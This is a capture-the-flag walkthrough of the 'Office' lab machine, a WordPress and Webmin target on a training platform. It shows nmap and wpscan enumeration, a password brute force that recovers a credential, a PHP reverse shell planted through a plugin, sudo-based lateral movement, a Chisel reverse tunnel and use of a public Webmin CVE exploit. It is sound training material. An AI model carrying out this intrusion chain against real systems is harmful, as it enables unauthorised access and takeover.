In this walkthrough, we'll go over one of the machines called ***Office*** from the challenge labs on [Cyberseclabs.co.uk](https://www.cyberseclabs.co.uk).


Let's start the scanning process with nmap:
```bash
nmap -sTV -p- -n 172.31.3.1
```
We'll see that there are three ports open:
```bash
Starting Nmap 7.91 ( https://nmap.org ) at 2021-07-29 11:58 EDT
Nmap scan report for 172.31.3.1
Host is up (0.057s latency).

PORT      STATE    SERVICE          VERSION
22/tcp    open     ssh              OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 e2:3f:6c:4e:6d:8b:dc:59:b7:cb:66:64:27:f9:22:86 (RSA)
|   256 ee:be:37:f3:75:4e:38:2a:a9:99:e0:18:1a:b8:d1:41 (ECDSA)
|_  256 7f:72:a7:29:be:30:9e:5e:aa:b9:fc:be:09:d2:8b:3a (ED25519)
80/tcp    open     http             Apache httpd 2.4.29 ((Ubuntu))
|_http-generator: WordPress 5.4.1
|_http-server-header: Apache/2.4.29 (Ubuntu)
|_http-title: Dunder Mifflin &#8211; Just another WordPress site
443/tcp   open     ssl/http         Apache httpd 2.4.29 ((Ubuntu))
|_http-server-header: Apache/2.4.29 (Ubuntu)
|_http-title: Apache2 Ubuntu Default Page: It works
| ssl-cert: Subject: commonName=office.csl/organizationName=Dunder Mifflin/stateOrProvinceName=PA/countryName=US
| Not valid before: 2020-05-08T20:01:51
|_Not valid after:  2021-05-08T20:01:51
|_ssl-date: TLS randomness does not represent time
| tls-alpn: 
|_  http/1.1
10000/tcp filtered snet-sensor-mgmt
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 16.52 seconds

```
Let's add this to our /etc/hosts file as follows:
```bash
172.31.3.1 office.csl
```
It looks like a WordPress site is being served on port 80:


Since this is a WordPress site, we can use wpscan to scan all the plugins with `wpscan --url http://office.csl --enumerate ap --plugins-detection aggressive --max-threads 50`


Previously, I tried to exploit the plugin ***wp-file-manager***, but that didn't go anywhere. Now, we can perform a user enumeration with the following `wpscan --url http://office.csl --enumerate u`


It looks like we have a user called ***dwight*** and we can try to brute force the login with this user name and the wordlist of rockyou.txt `wpscan --url http://office.csl --passwords /usr/share/wordlists/rockyou.txt --usernames dwight`


We have a successful hit so the found creds are:

Username | Password
--------- | ---------
dwight | cowboys1

By using the above credentials, we can successfully log into the admin panel. However, we need to download and install ***php_everywhere*** plugin for this machine. After installing the plugin, let's add a new page and then copy the PHP reverse shell from  into the PHP Everywhere text box (don't forget to change the IP address and port to yours) and type "php_everywhere" in the body of the page:



Now, start a revershell and in the WordPress site, hit "Preview". We should receive a shell back:


It looks like we are www-data and we need to perform a lateral movement to become dwight user so let's look at `sudo -l` which shows that we can run bash as dwight:


We can run the following script to become dwight `sudo -u dwight /bin/bash`:


From here, there are a few things that I check manually such as locally open ports with `netstat -tulpn`:


It looks like the port 10000 is open so we can forward this port back to our local Kali machine with [Chisel](https://github.com/jpillora/chisel)
1. On Kali, I started a chisel server: `./chisel_1.7.6_linux_amd64 server -p 1111 --reverse` 
2. On the target, I started a chisel client: `./chisel_1.7.6_linux_amd64 client 10.10.0.18:1111 R:9050:127.0.0.1:10000` 

When we visit http://127.0.0.1:9050/session_login.cgi, I see that Webmin is running:


At this point, we can use Metasploit to exploit the Webmin server, but let's do it manually without Metasploit. 

We can clone the following GitHub repo from [Webmin CVE-2019-15107](https://github.com/MuirlandOracle/CVE-2019-15107) and just run the exploit as shown below:


